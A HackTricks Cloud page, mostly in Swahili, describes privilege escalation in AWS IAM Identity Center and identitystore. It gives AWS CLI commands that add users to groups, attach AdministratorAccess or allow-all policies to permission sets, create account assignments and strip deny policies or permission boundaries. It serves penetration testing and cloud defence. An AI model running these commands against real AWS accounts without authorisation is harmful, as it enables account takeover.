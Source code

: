 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Kwa maelezo zaidi kuhusu AWS Identity Center / AWS SSO angalia:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Kumbuka kwamba kwa **kawaida**, ni **watumiaji** pekee wenye ruhusa **kutoka** kwenye **Akaunti ya Usimamizi** watakuwa na uwezo wa kufikia na **kudhibiti IAM Identity Center**.\
Watumiaji kutoka akaunti nyingine wanaweza tu kuruhusiwa ikiwa akaunti hiyo ni **Msimamizi wa Wawakilishi.**\
[Angalia hati kwa maelezo zaidi.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

Njia rahisi ya kupandisha mamlaka katika hali kama hii ingekuwa kuwa na ruhusa inayoruhusu kurekebisha nywila za watumiaji. Kwa bahati mbaya, inawezekana tu kutuma barua pepe kwa mtumiaji ili kurekebisha nywila yake, hivyo unahitaji ufikiaji wa barua pepe ya mtumiaji.

### `identitystore:CreateGroupMembership`

Kwa ruhusa hii inawezekana kuweka mtumiaji ndani ya kundi ili inherit ruhusa zote ambazo kundi lina.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake.

{% hint style="warning" %}
Ili kutumia vibaya ruhusa hizi katika kesi hii unahitaji kujua **jina la sera inayosimamiwa na mteja ambayo iko ndani ya AKAUNTI ZOTE** ambazo zitakazoathirika.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Mshambuliaji mwenye ruhusa hii anaweza kumpa Seti ya Ruhusa mtumiaji chini ya udhibiti wake kwa akaunti.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Inarudisha STS muda mfupi wa akreditivu kwa jina la jukumu lililotolewa kwa mtumiaji.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Hata hivyo, unahitaji token ya ufikiaji ambayo sija hakika jinsi ya kupata (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na AWS kutoka kwa seti ya ruhusa iliyotajwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na Mteja kutoka kwa seti ya ruhusa iliyoainishwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa ruhusa kutoka kwa sera ya ndani kutoka kwa seti ya ruhusa. Inawezekana kutoa **ruhusa zaidi kupitia kuondoa sera ya ndani (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa Mipaka ya Ruhusa kutoka kwa seti ya ruhusa. Inawezekana kutoa **haki zaidi kwa kuondoa vizuizi kwenye Seti ya Ruhusa** vilivyotolewa kutoka kwa Mipaka ya Ruhusa.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
